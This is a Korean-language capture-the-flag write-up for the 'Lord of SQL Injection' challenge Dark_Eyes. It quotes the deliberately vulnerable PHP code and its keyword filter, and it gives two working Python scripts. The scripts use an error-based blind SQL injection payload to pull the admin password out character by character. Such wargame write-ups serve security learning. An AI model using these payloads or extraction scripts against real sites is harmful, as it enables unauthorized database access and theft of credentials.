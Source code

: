 ## Lord of SQL Injection No. 22 - Dark_Eyes
## 문제 출제 의도
1. 조건문 없이 Blind SQL Injection의 성공 여부 확인.
2. 오류 출력문 없이 Blind SQL Injection의 성공 여부 확인.
## 소스 코드 분석
+ 소스 코드  
Dark_Eyes의 소스 코드는 다음과 같다.   
    ~~~   
    <?php
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(preg_match('/col|if|case|when|sleep|benchmark/i', $_GET[pw])) exit("HeHe");
    $query = "select id from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));
    if(mysql_error()) exit();
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $_GET[pw] = addslashes($_GET[pw]);
    $query = "select pw from prob_dark_eyes where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("dark_eyes");
    highlight_file(__FILE__);
    ?>
    ~~~
+ 소스 코드 분석
    - 금지 문자,문자열
        * GET 방식으로 받은 pw값에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
        * GET 방식으로 받은 pw값에 "col","if","case","when","sleep","benchmark" 중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - 에러 출력
        * MySQL 쿼리 수행 도중 오류가 있으면 빈 화면을 출력하고 문제 풀이에 실패한다.
    - 풀이 성공 조건
        * 데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같아야 한다.
## 문제 해결
+ pw 길이
    - 다음과 같은 코드를 이용하여 pw 의 길이를 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    i=1
    pwlen = 0

    while i :
        url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="
        data = "' or id='admin' and (((length(pw)='{}')+1)*9e307)#".format(str(i))
        print(data)
        
        data = quote(data)
        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
        re.add_header("Cookie", "PHPSESSID=nk6mlf5lc0jfv3np07uda7tcj4")

        response = urllib.request.urlopen(re)

        if str(response.read()).find("php") == -1:
            pwlen = i
            print('pw length : ' + str(pwlen))
            break   
        i+=1    
    ~~~
    - 이를 실행하면 pw의 길이가 8 인것을 알 수 있다.
+ pw 값
    - 다음과 같은 코드를 이용하여 pw의 값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    pwlen = 8

    for i in range(1, pwlen + 1):
        for j in range(32, 127):
            if chr(j) in ('_', '.',"'"):
                continue
            url = "http://los.eagle-jump.org/dark_eyes_a7f01583a2ab681dc71e5fd3a40c0bd4.php?pw="
            data = "' or id='admin' and (((substr(pw, 1, {})='{}')+1)*9e307) #".format(str(i), key + chr(j))
            print(data)

            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=nk6mlf5lc0jfv3np07uda7tcj4")

            req = urllib.request.urlopen(re)

            if str(req.read()).find("php") == -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 이를 실행하면 pw의 값은 "5a2f5d3c"인 것을 알 수 있다.
    - 이를 GET방식으로 pw에 입력하면 문제 풀이에 성공한다.